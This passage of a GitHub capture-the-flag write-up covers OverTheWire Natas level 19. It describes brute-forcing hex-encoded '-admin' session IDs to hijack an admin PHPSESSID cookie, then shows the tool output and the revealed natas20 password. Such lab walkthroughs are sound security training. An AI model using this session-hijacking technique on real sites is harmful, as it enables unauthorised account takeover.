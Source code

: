 - So you need to brute force all the numbers and add `-admin` to it, then hex encode it!

  ```
  $ python3 hex-cookie-brute.py                                                         
  [*] Tried session ID 0 (302d61646d696e)
  [*] Tried session ID 1 (312d61646d696e)
  [*] Tried session ID 2 (322d61646d696e)
  [*] Tried session ID 3 (332d61646d696e)
  [*] Tried session ID 4 (342d61646d696e)
  [*] Tried session ID 5 (352d61646d696e)
  [*] Tried session ID 6 (362d61646d696e)
  [*] Tried session ID 7 (372d61646d696e)
  [*] Tried session ID 8 (382d61646d696e)
  [*] Tried session ID 9 (392d61646d696e)
  [*] Tried session ID 10 (31302d61646d696e)
  [SNIP!]
  [*] Tried session ID 279 (3237392d61646d696e)
  [*] Tried session ID 280 (3238302d61646d696e)
  [+] Found admin session cookie: 281
  [+] Cookie found: (PHPSESSID: 3238312d61646d696e)
  <html>
  <head>
  <!-- This stuff in the header has nothing to do with the level -->
  <link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
  <link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
  <script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
  <script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
  <script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
  <script>var wechallinfo = { "level": "natas19", "pass": "tnwER7PdfWkxsG4FNWUtoAZ9VyZTJqJr" };</script></head>
  <body>
  <h1>natas19</h1>
  <div id="content">
  <p>
  <b>
  This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
  </b>
  </p>
  You are an admin. The credentials for the next level are:<br><pre>Username: natas20
  Password: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw</pre></div>
  </body>
  </html>
  ```

---

## 🏁 Password for the next level

`Password for natas20 is: p5mCvP7GS2K6Bmt3gqhM2Fc1A5T8MVyw`

---

Back to [Main Repo](https://github.com/mauzware/OverTheWire-Natas)
